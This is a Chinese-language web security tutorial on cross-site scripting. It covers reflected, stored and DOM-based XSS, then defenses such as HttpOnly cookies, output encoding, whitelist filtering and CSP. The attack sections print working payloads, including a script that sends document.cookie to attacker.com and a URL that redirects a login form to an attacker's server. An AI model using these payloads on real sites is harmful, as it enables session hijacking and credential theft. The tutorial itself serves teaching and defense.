



# xss(Cross Site Scripting) 跨站脚本攻击
举个栗子：  
get_param_from_url是一个从地址栏获取参数的函数
```html
<div>
  ${get_param_from_url(message)}
</div>
```
之后我们访问：`http://xxxx.com?message=hello`
此时页面会显示
```html
<div>
  hello
</div>
```

但如果我们这样访问`http://xxxx.com?message=<script>alert('hello')</script>`

如果页面没做任何处理，则会导致页面alert一个文本hello
```html
<div>
  <script>alert('hello')</script>
</div>
```

当然，以上javascript代码中只有alert一段代码，实际上它可以是任何js代码。  

这便是一段最简单的xss攻击，即反射型xss攻击。xss攻击还有其他种类，我们接下来逐个来分析。

xss（cross-site scripting跨域脚本攻击），一般分为两类：
* Reflected XSS（反射型的 XSS 攻击）
* Stored XSS（存储型的 XSS 攻击）
* DOM Based XSS

## 反射型xss攻击
这种类型的xss攻击是简单地把用户输入的数据“反射”给浏览器。此时黑客需要诱使用户“点击”一个恶意链接，才能成功。

案例一：
1. 用户登录某网站（www.myWeb.com），产生认证token，存储在cookie中，如`set cookie: sessId=183dsjfk3498djncrueiw`。
1. 存在某页面`www.myWeb.com/somePage`，它会获取地址栏中的message参数
1. 黑客通过一些途径让用户提交如下url，`www.myWeb.com/somePage?message=<script>var+i=new+Image;i.src="http://attacker.com/"%2bdocument.cookie</script>`
1. somePage页面通过提取message执行了里面的script代码，也想攻击者的网站attacker.com发起请求，并将cookie带了过去
1. 攻击者拿到了cookie，可以伪造用户发起恶意请求了。

整个过程如图所示  


此时黑客插入的代码是：
```javascript
var i = new Image
i.src = "http://attacker.com/" + document.cookie
```
等于向黑客的地址发起了一个请求，并且带上了用户自己的cookie

案例二：  
有个如下的页面  
  
表单的ID项从URL中获取ID参数填充到文本框中，这种也是隐含着跨站脚本攻击的漏洞。

黑客可以事先准备好如下URL，并作为欺诈邮件或者web页面，诱导用户去点击
```
http://example.jp/login?ID="><script>var+f=document.getElementById("login");+f.action="http://hackr.jp/pwget";+f.method="get";</script><span+s="
```

用户打开链接后，没有发生什么变化，但是脚本已经在偷偷的运行了。这时用户在表单输入完ID和密码后，点击登录，便把数据提交到攻击者的网站（http://hackr.jp）

## 存储型的xss攻击
存储型的xss攻击会把用户输入的数据存储在服务器端，这种类型的xss就具备很强的稳定性了。

这种情况大部分都出现在一些类似留言板或者编辑器上。例如黑客可以在留言区留下javascript的攻击脚本，脚本会最终上传到服务器端并保存下来，如果服务器端不做任何处理，那所有能看到这个留言的用户都将执行这段代码。

看如下案例：
1. 用户登录后，获得认证令牌于cookie中。
1. 攻击者在留言区中嵌入js代码，代码功能为获取用户cookie中的令牌，并向攻击者的服务器发起请求。
1. 用户浏览到攻击者的留言，攻击者的攻击代码被执行，令牌被攻击者获取到。
1. 攻击者获取到令牌，代替用户发起请求，完成攻击。

### 两种xss攻击类型的区别
1. 首先反射型需要攻击者设计一个url，诱导用户去访问该地址，最终完成攻击
1. 存储型则不需要，它只需要等待用户去浏览被攻破的页面或者功能即可，而这个页面通常会是用户经常访问的页面

## DOM Based XSS
这种攻击可以说就是是反射型xss，只不过它是利用了js可以操作dom的特点来进行攻击。

```html
<script>
  function test() {
    var str = document.getElementById("text").value;
    document.getElementById("t").innerHTML = "<a href='" + str + "' >testLink</a>";
  }
</script>

<div id="t"></div>
<input type="text" id="text" value="" />
<input type="button" id="s" value="write" onclick="test()"/>
```


用户在文本框中输入本文，点击按钮后执行test方法，在页面中插入一个链接，地址为文本框中输入的值。

这里便隐藏着xss攻击。我们可以设计这样一个内容
```
' onclik=alert(/xss/) //
```
其中单引号用于将href闭合，最后的注释符号//用于注释掉第二个单引号，中间插入了一个onclick事件。当点击按钮后，生成的链接被用户点击后，变回弹出alert对话框，显示xss。插入的数据如下所示：
```html
<a href="" onclick=alert(/xss/)//' >testLink</a>
```

# xss防御
## httpOnly
xss攻击有很多都是通过js脚本窃取用户的cookie来伪造用户进行攻击，通过设置`httpOnly=true`禁止js代码获取cookie。

我们必须知道httpOnly只能解决xss后的cookie劫持攻击。

在设置cookie时可以添加很多备选项
```
Set-Coolie: <name>=<value>[; <Max-Age>=<age>]
[; expires=<date>][; domain=<domain_name>]
[; path=<some_path>][; secure][; HttpOnly]
```

服务器端可以设置多个Cookie（多个key-value对），httpOnly可以选择性的加在任何Cookie值上。我们可以只在部分敏感的Cookie上添加HttpOnly

## 编码
网页在显示内容的时候，需要将内容进行编码。

### 网站直接输出展示
当网站需要直接输出用户输入的结果时，需要对内容进行HTMLEncode，其标准被ISO-8859-1，需要转化以下字符
```
& ---> &amp;
< ---> &lt;
> ---> &gt;
" ---> &quot;
' ---> &#x27;
/ ---> &#x2F;
```
不过也不是每个人都会按照这个标准实现，例如js的库[escape-html](https://github.com/component/escape-html)在单引号`'`和斜杠`/`的编码就不一样

```javascript
const escape = require('escape-html')
const html = '<script>alert("xss")</script>'
escape(html)
// &lt;script&gt;alert(&quot;xss&quot;)&lt;/script&gt;
```

### 提供给javascript来使用
有时我们输出的内容需要提供给网页的javascript来使用，做到动态配置的作用
```javascript
var foo = '"hello"'

console.log(`var foo = "${foo}";`)
// var foo = ""hello""
```

使用“\”对特殊字符进行转义，除数字字母之外，小于127的字符编码使用16进制“\xHH”的方式进行编码，大于用unicode（非常严格模式）。

阿里的 [egg](https://github.com/eggjs/egg/) 框架提供了一个`helper.sjs`的工具帮我们做到这一点，具体原码可到这里看 [sjs](https://github.com/eggjs/egg-security/blob/master/lib/helper/sjs.js)
```javascript
var foo = '"hello"'

console.log(`var foo = "${foo}";`)
// var foo = ""hello""

var sjs = require('./sjs')
sjs(`var foo = "${foo}";`)
// var foo = "\\x22hello\\x22";
```
该库会将非数字、非字母进行转义成十六进制格式，并在前面加上`\\xx`。

有时我们还需要处理json数据，json也容易被xss利用，也需要转义，egg也提供了`helper.sjon`做json encode，具体可以看 [egg sjson源码](https://github.com/eggjs/egg-security/blob/master/lib/helper/sjson.js)。  该库会遍历json中的每个键值对，做编码处理，因此会有一定的性能开销，要慎重使用。

### 在地址中输出
```javascript
<a href="http://www.evil.com/?test=$var"></a>
```
此时可能的攻击方法为
```javascript
<a href="http://www.evil.com/?test=" onclik=alert(1)"" ></a>
```
为了防止xss攻击，我们需要进行URLEncode，变成
```javascript
<a href="http://www.evil.com/?test=%22%20onclick%3balert%281%29%22"></a>
```

但如果变量是要作为整个url的，就不能这么做了
```javascript
<a href="$var"></a>
```
如果用URLEncode的话，会把`://`和`.`这种都编码掉。

另外攻击者可能构造如下攻击
```javascript
<a href="javascript:alert(1)"></a>
```
除了javascript作为伪协议外，还有vbscript、dataURI等伪协议，都能导致脚本执行  
这时我们应该先判断变量是否以`http`开头，如果不是则自动添加，然后再对变量进行URLEncode，以保证不会出现伪协议类的xss攻击。

### 富文本输出格式化
当页面允许用户录入页面排版、格式控制相关的HTML时，我们需要对用户的输入进行过滤和格式化，通过白名单的方式来控制允许的标签和属性。

例如博客和论坛这种会有用户留言的地方，可能会被攻击者利用，输入一些而已的脚本，最终被服务器端存储起来，并被其他用户使用。页面显示时需要对这些存储的脚本进行编码或者过滤。

可以参考这个库 [js-xss](https://github.com/leizongmin/js-xss)

主要功能是：
1. 通过设置一些白名单，过滤一些不合法的标签，将其从删除
2. 过滤备注

```javascript
var str = `<a href="http://www.domain.com">google</a><script>evilcode…</script>`;

const xss = require('xss');

xss(str)
// '<a href="http://www.domain.com">google</a>&lt;script&gt;evilcode…&lt;/script&gt;'

xss(str, {
  whiteList: { a: [] }
})
// '<a>google</a>&lt;script&gt;evilcode…&lt;/script&gt;'

xss(str, {
  whiteList: { a: [] },
  stripIgnoreTag: true
})
// '<a>google</a>evilcode…'

xss(str, {
  whiteList: { a: [] },
  stripIgnoreTagBody: true
})
// '<a>google</a>'
```

一定要注意 shtml 的适用场景，一般是针对来自用户的富文本输入，切忌滥用，功能既受到限制，又会影响服务端性能。 此类场景一般是论坛、评论系统等，即便是论坛等如果不支持 HTML 内容输入，也不要使用此 Helper，直接使用 escape 即可。

egg框架将js-xss继承在框架中，同时它添加了针对域名的过滤，并且过滤规则更加严格，如a标签中，除了title全部过滤掉。

### 通过csp进行防御
关于csp的概念参考 [什么是csp](https://www.zhihu.com/question/21979782)

主要就是通过一些请求头，定义哪些资源允许加载，不在需要我们自己来定义过滤规则或者编码规则，交给协议来做，或者说让浏览器来做。

也可以通过在网页中`<meta>`标签来设置。

但是这个设置需要你对csp有一定的理解，毕竟它提高了网站的复杂性。
